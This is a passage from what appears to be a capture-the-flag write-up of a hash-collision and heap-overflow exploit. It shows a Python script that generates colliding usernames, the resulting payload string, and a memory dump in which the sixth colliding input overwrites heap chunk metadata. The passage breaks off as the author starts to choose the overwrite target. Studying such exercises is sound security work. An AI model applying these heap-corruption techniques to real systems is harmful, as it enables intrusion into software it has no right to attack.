 # find the most common hash
most_common_hash = max(range(0x10000),key=lambda name:len(hashtable[name]))

# show all usernames with that hash
print(";".join(["new {} 1".format(x) for x in hashtable[most_common_hash]]))

$ python chernobyl/collide.py
new bsta 1;new dyzc 1;new gaae 1;new iggg 1;new kmmi 1;new mssk 1;new oyym 1;new tgfq 1;new vmls 1;new xsru 1;new zyxw 1
```

And indeed, if we use the input:

```new bsta 1;new dyzc 1;new gaae 1;new iggg 1;new kmmi 1;new mssk 1;new oyym 1```

then the hash table looks like:

```
5000:   0050 1050 1500 0700 0300 0500 1650 2c50   .P.P.........P,P
5010:   0050 2650 2100 4250 a250 0251 6251 c251   .P&P!.BP.P.QbQ.Q
5020:   2252 8252 e252 1050 3c50 2100 0000 0000   "R.R.R.P<P!.....
5030:   0700 0000 0000 0000 0000 0000 2650 9c50   ............&P.P
5040:   b500 0000 0000 0000 0000 0000 0000 0000   ................
5050:   *
5090:   0000 0000 0000 0000 0000 0000 3c50 fc50   ............<P.P
50a0:   b500 0000 0000 0000 0000 0000 0000 0000   ................
50b0:   *
50f0:   0000 0000 0000 0000 0000 0000 9c50 5c51   .............P\Q
5100:   b500 6273 7461 0000 0000 0000 0000 0000   ..bsta..........
5110:   0000 0100 6479 7a63 0000 0000 0000 0000   ....dyzc........
5120:   0000 0000 0100 6761 6165 0000 0000 0000   ......gaae......
5130:   0000 0000 0000 0100 6967 6767 0000 0000   ........iggg....
5140:   0000 0000 0000 0000 0100 6b6d 6d69 0000   ..........kmmi..
5150:   0000 0000 0000 0000 0000 0100 6d73 736b   ............mssk
5160:   b500 0000 0000 0000 0000 0000 0100 6f79   ..............oy
5170:   796d 0000 0000 0000 0000 0000 0000 0100   ym..............
5180:   *
51b0:   0000 0000 0000 0000 0000 0000 5c51 1c52   ............\Q.R
51c0:   b500 0000 0000 0000 0000 0000 0000 0000   ................
51d0:   *
5210:   0000 0000 0000 0000 0000 0000 bc51 7c52   .............Q|R
5220:   b500 0000 0000 0000 0000 0000 0000 0000   ................
5230:   *
5270:   0000 0000 0000 0000 0000 0000 1c52 dc52   .............R.R
5280:   b500 0000 0000 0000 0000 0000 0000 0000   ................
5290:   *
52d0:   0000 0000 0000 0000 0000 0000 7c52 3c53   ............|R<S
52e0:   b500 0000 0000 0000 0000 0000 0000 0000   ................
52f0:   *
5330:   0000 0000 0000 0000 0000 0000 dc52 0050   .............R.P
5340:   7cf9 0000 0000 0000 0000 0000 0000 0000   |...............
5350:   *
```

Great.  We have a valid method to generate collisions, and the start
of the sixth colliding input is what overwrites the chunk metadata.
So once we decide what to put here, we'll presumably have to search
specifically for (or solve for?) inputs that collide with our chosen
values.


* What to overwrite:
```